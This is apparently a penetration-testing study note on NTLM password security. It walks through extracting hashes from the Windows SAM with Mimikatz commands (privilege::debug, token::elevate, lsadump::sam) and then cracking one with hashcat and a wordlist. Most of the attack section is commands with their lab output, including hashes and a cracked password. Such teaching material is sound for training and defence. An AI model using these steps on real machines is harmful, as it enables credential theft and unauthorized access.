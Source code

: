 
# Cracking NTLM Hashes
On [Windows](../../computers/windows/README.md) machines passwords are [hashed](../../computers/concepts/cryptography/hashing.md) and stored in the [Security Account Manager](../../computers/windows/SAM.md)(SAM). Before being stored, passwords are hashed using [NTLM](../../networking/protocols/NTLM.md). Unfortunately, NTLM hashes are pretty insecure and an 8 character password can be *cracked within 2 hours*.
## NTLM Security
NTLM was created to replace the original protocol called LM. LM used DES which is known to be a very week algorithm. Additionally, LM was *case insensitive* which decreased the [keyspace](OSCP/password-attacks/README.md#keyspace) making it easier to crack. 

NTLM hashes are more secure because they are *case sensitive* and use the *MD4* hashing algorithm. However, *they are not salted* (salting is when random bits are added to the beginning of a password before its hashed). Salting a password prevents it from being [brute-forced](../../cybersecurity/TTPs/cracking/brute-force.md) using a [rainbow-table](../../cybersecurity/TTPs/exploitation/rainbow-table.md).
## Getting the Hash
The SAM database file is located at `C:\Windows\system32\config\sam` and its contents can't just be copy pasted because Windows keeps a *file system lock* on it. Instead, we can use [Mimikatz](https://github.com/gentilkiwi/mimikatz).
### Finding Users to Impersonate
Before we use mimikatz, lets do some recon and find a user to impersonate. We can use `Get-LocalUser` in [powershell](../../computers/windows/powershell.md) to see a list of all of the users on the system:
```powershell
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
...
```
In the output, we see that there are two enabled users, `nelly` and `offsec`.
### Mimikatz
[mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) is a versatile Windows tool which can be used for password and hash attacks. One thing in particular it can do is extract password hashes *from the [LSASS](../../computers/windows/LSASS.md)* process's memory. LSASS, which runs with `SYSTEM` level privileges, caches NTLM hashes and other creds in its memory. We can use Mimikatz' *sekurlsa* module to extract them.

Because `lsass.exe` runs with `SYSTEM` level privileges, we need to run Mimikatz *as an Administrator* with the `SeDebugPrivilege` access right enabled. `SeDebugPrivilege` grants us the ability to *debug processes* we own as well as ones we don't own.
#### Starting Mimikatz
First, open powershell by running it as an administrator. Find the `mimikatz.exe` tool (usually you have to bring the executable onto the Windows system you've compromised) and run it with `.\mimikatz.exe`:
```powershell
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ls
    Directory: C:\tools
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```
Once you start it, it will give you a little repl shell thing. Now you can run mimikatz commands.
#### Enabling Privileges
There are a few commands for extracting passwords/tokens/hashes, etc. but a lot of them require the `SeDebugPrivilege` access right and `SYSTEM` level privileges. We can use `privilege::debug` to gain those:
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
#### Token Elevation Module
Now that we have `SYSTEM` privileges, we can access the LSASS. Mimikatz will allow us to do that via it's *[Token Module](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md#Token%20Module)*. This module allows Mimikatz to interact with Windows *authentication tokens* in the LSASS. With this module, mimikatz can grab tokens and then impersonate them. If we use `token::elevate`, we can impersonate another process/ user by elevating our token to theirs:
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
Now we're impersonating `NT AUTHORITY\SYSTEM` built-in account.
#### Getting the Hash with `lsadump::sam`
Now we can dump tokens from the SAM and see if we can find a token for the `nelly` user we saw with `Get-LocalUser` before:
```powershell
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
## Cracking the Hash
Now that we have the NTLM hash for the `nelly` user, we can bring it to our cracking rig and crack it. First, we need to put it into a file with a `.hash` extension. Then we can use [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) to crack it:
### Find the Right Hash Mode
Assuming the hash we gathered is a regular NTLM hash we can find the hash mode for it like so:
```bash
hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```
From the output, our hashmode is `1000`.
### Crack the Hash
Now we can run hashcat. For the wordlist we can use `rockyou.txt` and for the ruleset we can use `best64.rule`:
```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
...
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Thu Jun  2 04:11:28 2022, (0 secs)
Time.Estimated...: Thu Jun  2 04:11:28 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 17926.2 kH/s (2.27ms) @ Accel:256 Loops:77 Thr:1 Vec:8
...
```
Hashcat has managed to crack the hash for the password `nicole1`. 

> [!Resources]
> - [Mimikatz Repo](https://github.com/gentilkiwi/mimikatz)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.